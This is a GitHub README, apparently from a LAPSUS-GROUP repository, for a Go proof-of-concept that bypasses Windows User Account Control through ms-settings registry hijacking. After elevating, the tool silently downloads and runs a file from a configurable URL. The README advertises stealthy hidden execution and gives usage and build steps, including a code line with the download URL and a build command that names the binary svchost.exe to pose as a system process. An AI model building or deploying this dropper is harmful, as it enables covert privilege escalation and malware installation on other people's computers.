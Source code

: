 # UAC Bypass Tool 🚀

This is a proof-of-concept (PoC) tool for bypassing User Account Control (UAC) on Windows systems. The tool leverages registry modifications and process execution to elevate privileges without user interaction.

---

## Features ✨

- **UAC Bypass**: Executes code with elevated privileges without triggering the UAC prompt.
- **File Downloader**: Downloads a specified file from a URL to a temporary directory.
- **Registry Manipulation**: Modifies the Windows registry to exploit UAC bypass techniques.
- **Silent Execution**: Executes processes and commands with hidden windows for stealthy operation.
- **Cleanup**: Automatically reverts registry changes after execution.

---

## How It Works 🛠️

1. **Admin Privilege Check**: The tool verifies if it is running with administrator privileges.
2. **Registry Exploit**: If not running as admin, it modifies specific registry keys under `HKCU\Software\Classes` to execute the tool with elevated privileges using the `ms-settings` protocol.
3. **File Download and Execution**: Once elevated, it downloads a file from a specified URL to a temporary directory and executes it.
4. **Registry Cleanup**: Restores the registry to its original state after execution.

---
## Usage 🚀

1. Edit the source code to specify the file URL to download and its name:
   ```go
   fileUrl := "https://example.com/yourfile.exe" // Replace with your URL
   tempPath := os.TempDir() + string(os.PathSeparator) + "yourfile.exe" // Replace with desired file name
   ```
2. Run the compiled executable:
   ```bash
   uac_bypass.exe
   ```
3. The tool will:
   - Elevate privileges if necessary.
   - Download the file from the specified URL.
   - Execute the downloaded file.

---
## Installation 💻

### Prerequisites

- **Go Programming Language**: Installed on your system. (Version 1.16+ recommended)
- **Windows**: This tool uses Windows-specific APIs and will not work on other operating systems.

### Steps to Build

1. Clone the repository:
   ```bash
   git clone https://github.com/LAPSUS-GROUP/UAC-Bypass.git
2. Compile Code:
   ```bash
   go build -ldflags="-H windowsgui" -o svchost.exe main.go
